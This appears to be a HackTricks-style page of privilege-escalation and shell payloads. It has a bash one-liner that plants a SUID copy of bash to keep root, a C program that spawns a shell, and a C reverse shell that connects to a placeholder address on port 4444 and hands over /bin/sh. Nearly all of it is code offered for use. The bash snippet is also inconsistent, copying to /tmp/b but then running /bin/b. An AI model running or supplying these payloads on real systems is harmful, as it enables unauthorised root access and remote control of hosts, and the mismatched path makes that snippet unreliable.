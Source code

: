 # Payloads to execute

<details><summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>

## Bash
```bash
cp /bin/bash /tmp/b && chmod +s /tmp/b
/bin/b -p #Maintains root privileges from suid, working in debian & buntu
```
# C

### Payloads to Execute

#### Shell

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    system("/bin/sh");
    return 0;
}
```

#### Reverse Shell

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <netinet/in.h>
#include <sys/types.h>
#include <sys/socket.h>

int main() {
    int sockfd;
    struct sockaddr_in server;

    sockfd = socket(AF_INET, SOCK_STREAM, 0);
    server.sin_family = AF_INET;
    server.sin_port = htons(4444);
    server.sin_addr.s_addr = inet_addr("127.0.0.1");

    connect(sockfd, (struct sockaddr *)&server, sizeof(server));
    dup2(sockfd, 0);
    dup2(sockfd, 1);
    dup2(sockfd, 2);

    execve("/bin/sh", NULL, NULL);

    return 0;
}
```
